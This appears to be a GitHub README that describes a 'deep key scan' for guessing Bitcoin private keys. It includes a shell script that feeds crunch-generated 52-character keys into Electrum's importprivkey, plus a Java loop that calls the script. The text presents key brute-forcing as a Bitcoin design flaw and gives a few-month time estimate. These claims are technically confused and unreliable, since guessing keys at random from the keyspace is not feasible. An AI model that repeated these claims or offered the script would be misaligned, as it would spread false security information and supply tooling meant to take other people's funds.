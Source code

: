 # bitcoin-lost-deep-key-private-key
lost bitcoin , deep key private key



Github,

	It might be possible to scan bitcoin private keys sitting on the network due to a vulnerability in the way bitcoin was designed since there is nothing really safeguarding the internal framework of the bitcoin wallet either in classic, core or other variants. Even by encrypting your wallet nothing prevents the importation of a private key by changing a configuration flag in any wallet whether it is classic, core or a variant. I have attempted to test a basic attack vector using a password generation program based on JTR and crunch (https://sourceforge.net/projects/crunch-wordlist/) to generate a range of base 58 values based on bitcoin private keys and under further modification it is possible to continue to customize this form of private key deep scan and execute it as a basic attack vector. The banking system should be notified not to get on-board with the Bitcoin network, even though originally the bitcoin network might have represented a form of Independence from banking institutions to by pass terrible fees from the banks and other dilemmas caused by most banks having full control.
	As an example of private key generation and experimentation within the bitcoin network some private keys start with L5..c4 or Ky..k1 < as an example 52 characters alpha-numeric no special characters, decoded they flip around to an address starting with 1 as part of the end decoded process, similar to how paper wallets are printed exported and imported there is nothing protecting a paper wallet if it is a known similar to how a private key bears no security or protection from import to a wallet whether it is classic, core or a variant.
	I estimate on a modern system this deep key scan for a small set of keys ranging in a few million private keys could take anywhere from 3 to 4 months to generate and scan, furthermore I have written a crude script to try newly generated private keys using “crunch” password generator to generate 52 character private keys starting with L or K.


as an example using bash from a crude semi working type

where the .txt files are private key deep search blocks generated by crunch password generator
and electrum has to have a config flag flipped in order to import private keys, in order to being import
you have to import a pre-existing working private key into electrum which is used here.

#!/bin/sh 

head -n1 L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt > newfile.txt 
cat newfile.txt 
perl -p -i -e 's/\R//g;' newfile.txt 
cat newfile.txt 
cat newfile.txt | electrum importprivkey - 
tail -n +2 "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt" > "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt.tmp" && mv "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt.tmp" "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt" 






as a crude example using java in a non working model


/* 
 * To change this license header, choose License Headers in Project Properties. 
 * To change this template file, choose Tools | Templates 
 * and open the template in the editor. 
 */ 

//package deepkeysearch; 

import java.io.BufferedReader; 
import java.io.InputStreamReader; 

public class DeepKeySearch { 

    public static void main(String[] args) { 

        DeepKeySearch obj = new DeepKeySearch(); 



    System.out.println("Place in working directory of wordlists to process"); 

    System.out.println("Change text file rotation after L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt"); 



        String command = "./deepkey.sh"; 


        String output = obj.executeCommand(command); 


        System.out.println(output); 

    } 

    private String executeCommand(String command) { 

        StringBuffer output = new StringBuffer(); 

        int infinite = 99; 

        while (infinite != 100) { 


        Process p; 
        try { 
            p = Runtime.getRuntime().exec(command); 
            p.waitFor(); 
            BufferedReader reader = 
                            new BufferedReader(new InputStreamReader(p.getInputStream())); 

                        String line = ""; 
            while ((line = reader.readLine())!= null) { 
                output.append(line + "\n"); 

        System.out.println(output); 

            } 

        } catch (Exception e) { 
            e.printStackTrace(); 
        } 

        infinite = 1; 

        } 

        return output.toString(); 

        } 



    } 







